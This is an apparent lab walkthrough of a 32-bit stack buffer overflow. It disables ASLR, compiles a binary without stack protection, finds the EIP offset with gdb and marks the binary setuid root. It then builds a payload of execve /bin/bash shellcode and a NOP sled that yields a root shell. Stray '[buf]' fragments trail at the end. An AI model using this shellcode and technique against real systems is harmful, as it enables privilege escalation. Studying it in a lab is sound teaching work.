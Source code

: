 ```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
gcc test.c -o test  -fno-stack-protector -z execstack -m32
```

Running the file reveals the 
```bash
ubuntu@ubuntu:/tmp$ ./test
Wanna Smash!?: 0xffffcfd0
```

We create a pattern and input it into the binary, and as we see below we succeeded in overwriting EIP.  
```gdb
EAX: 0x0 
EBX: 0x0 
ECX: 0xf7fb85a0 --> 0xfbad2288 
EDX: 0xf7fb987c --> 0x0 
ESI: 0xf7fb8000 --> 0x1afdb0 
EDI: 0xf7fb8000 --> 0x1afdb0 
EBP: 0x41514141 ('AAQA')
ESP: 0xffffd030 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41416d41 ('AmAA')
```

```
gdb-peda$ pattern offset 0x41416d41
1094806849 found at offset: 140
```
We see it's at position 140.  Now we have all the ingredients needed to exploit this binary.  Firstly, we make the binary an suid binary, so it will be executed as root.  We then use the binary to get the position of the buffer.
```bash
ubuntu@ubuntu:/tmp$ sudo chown root:root ./test
[sudo] password for ubuntu: 
ubuntu@ubuntu:/tmp$ sudo chmod u+s ./test
ubuntu@ubuntu:/tmp$ ./test
Wanna Smash!?: 0xffffcfd0
```

In our payload we then place the following shellcode to return us a shell: [http://shell-storm.org/shellcode/files/shellcode-606.php](http://shell-storm.org/shellcode/files/shellcode-606.php)
```python
python -c "from struct import pack; print '\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80'.ljust(140,'\x90') +  pack('<L', 0xffffcfd0)"  > /tmp/var
```

You'll notice here I've used `ljust` on the shellcode.  This just pads the string to the determined length of 140 with `NOP` instructions.  This makes the process of creating a nopsled slightly easier.  For example, if we were to replace the shellcode, we would just replace the string and the payload would still be of length 140.  

We run the binary, inputting the payload, and we are returned a root shell.  The uid won't change but the [effective-uid](https://stackoverflow.com/questions/32455684/difference-between-real-user-id-effective-user-id-and-saved-user-id) or the euid does to 0, meaning we now have root privileges.


[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 